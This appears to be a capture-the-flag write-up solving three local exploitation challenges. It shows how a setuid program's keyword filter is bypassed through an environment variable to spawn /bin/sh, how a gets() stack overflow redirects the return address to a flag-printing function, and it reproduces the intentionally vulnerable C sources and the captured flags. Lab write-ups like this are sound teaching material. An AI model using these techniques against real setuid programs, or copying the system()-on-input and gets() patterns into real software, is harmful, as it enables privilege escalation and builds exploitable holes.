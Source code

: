 # Solutions for Buffer-Overflow CTF

Buffer-Overflow is just a heading, some problems are just basic knowledge of bash.

### you think you know bash???

This problem is elementary based on the basic knowledge of bash.

Firstly, just try if we can open the file (be simple).

```sh
ctf2@ip-172-31-4-22:~/el-ess$ cat flag 
cat: flag: Permission denied
```

Checking the owners and groups flag belong to along with permissions.

```sh
ctf2@ip-172-31-4-22:~/did you do bandit?$ ls -al
total 32
drwxrwxr-x 2 pwnme      pwnme       4096 Jun 10 10:41 .
drwxr-xr-x 7 pwnme      pwnme       4096 Jun 14 08:17 ..
-r--r----- 1 i_am_pwned pwned_group   24 Jun 10 10:41 flag
-rw------- 1 pwnme      pwnme          9 Jun 10 10:22 .gdb_history
-r-sr-xr-x 1 i_am_pwned i_am_pwned  8968 Jun  9 09:24 you think you know bash???
-rw-rw-r-- 1 pwnme      pwnme        722 Jun  9 09:23 you think you know bash???.c
```

Since the owner of executable *"you think you know bash???"* is same as *"flag"* it can access flag file.
Checking its code.

```sh
ctf2@ip-172-31-4-22:~/did you do bandit?$ cat you\ think\ you\ know\ bash\?\?\?.c

#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<string.h>

int filter(char *s){
    int r = 0;
    r+=(int)strstr(s, "/");
    r+=(int)strstr(s, "sh");
    r+=(int)strstr(s, "*");
    r+=(int)strstr(s, "flag");
    r+=(int)strstr(s, "who");
    r+=(int)strstr(s, "PATH");
    r+=(int)strstr(s, "=");
    r+=(int)strstr(s, "{");
    r+=(int)strstr(s, "}");

    return r;
}

int main(int argc, char* argv[]){
    if(argc == 2){
        if(filter(argv[1]))
            exit(1);
        else{
            setenv("PATH", "/nonsense", 1);
            printf("%s", argv[1]);
            system(argv[1]);
        }
    }
    else{
        printf("Usage: ./cmd COMMAND\n");
        exit(1);
    }
    return 0;
}
```

So there is system function, thus we can pass a command to run to the system function in terms of argv[1], so lets try that.
But there is a catch, we can't directly enter the command *"/bin/sh"* as the filter function will not allow us to use that, so manipulating our input, we can pass the argument in the form of a string variable.

**Important!!** the PATH is being altered and thus common commands will not work in the shell so remember to change that.

```sh
ctf2@ip-172-31-4-22:~/did you do bandit?$ export pass=/bin/sh 
ctf2@ip-172-31-4-22:~/did you do bandit?$ ./you\ think\ you\ know\ bash\?\?\? '$pass'

$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin:/sbin
$ cat flag
d1d_y0U_$0Lv3_Pw/\/4bl3
```

**Answer - d1d_y0U_$0Lv3_Pw/\/4bl3**

*And yes I did solve pwnable*


### covfefe

Seeing the c code we realized juz needed to run the function capture me, i.e. needed to place the address of the function in the return address of the main function being executed.

```sh
ctf2@ip-172-31-4-22:~/covfefe$ cat covfefe.c

#include<stdio.h>
#include<string.h>

void capture_me()
{
	system("/bin/cat flag");
}

int main()
{
	char s1[50];
	char s2[50];
	printf("Enter your first string:");
	gets(s1);
	printf("Enter your second string:");
	gets(s2);

	char len1 = strlen(s1);
	char len2 = strlen(s2);

	if(len1 + len2 > 100){
		exit(0);
	}

	printf("I forgot the flag :p\n");
	return 0;
}

```

First need to figure out the address of the function capture_me so:

```sh
ctf2@ip-172-31-4-22:~/covfefe$ objdump -D covfefe | grep -A 1 capture_me

000000000040065d <capture_me>:
  40065d:	55                   	push   %rbp

```

Thus, we need to pass the address 0x40065d into the return address pointer.
First figuring out how many characters we need to pass in order to reach the ret pointer.

Running code in gdb and checking the address it shows at last before segmentation fault gives you the idea of how much you need to give to make it overflow.
Like passing 76 characters to both strings.

```sh
gdb-peda$ run

Starting program: /home/pwnme/covfefe/covfefe
Enter your first string:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Enter your second string:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I forgot the flag :p

Program received signal SIGSEGV, Segmentation fault.

...

Stopped reason: SIGSEGV
0x00007f0041414141 in ?? ()

```

The above result shows we need to pass 78 characters in both strings (as 2 more bytes are left to overflow in the address).
Also we want the overflow address to correspond to **0x00000040065d**

So changing the last 6 characters of first string (due to LIFO) according to the address. (Converting *Hex* to *ASCII*)
* **5d -> ]**
* **06 -> ^F**
* **40 -> @**
* **00 -> ^@**

```sh
ctf2@ip-172-31-4-22:~/covfefe$ ./covfefe 

Enter your first string:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA]^F@^@^@^@
Enter your second string:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I forgot the flag :p
1$_th12_7h3_l4$7_fl49
Segmentation fault (core dumped)

```

**Answer - 1$_th12_7h3_l4$7_fl49**


### el-ess

I don't know if it is a bug or something but it was done by using cat only
Someone probably changed its permissions so anyone can read it.

```sh
ctf2@ip-172-31-4-22:~/el-ess$ ls -al
total 20
drwxrwxr-x 2 pwnme     pwnme     4096 Jun 12 11:26 .
drwxr-xr-x 7 pwnme     pwnme     4096 Jun 14 08:17 ..
-r-sr-xr-x 1 smart_ass smart_ass 7552 Jun 12 10:40 el-ess
-rw-rw-rw- 1 smart_ass pwnme       28 Jun 12 11:26 flag

ctf2@ip-172-31-4-22:~/el-ess$ cat flag
2t1ll_34$Y_fl49_1$/\/7_17_?
```

**Answer - 2t1ll_34$Y_fl49_1$/\/7_17_?**
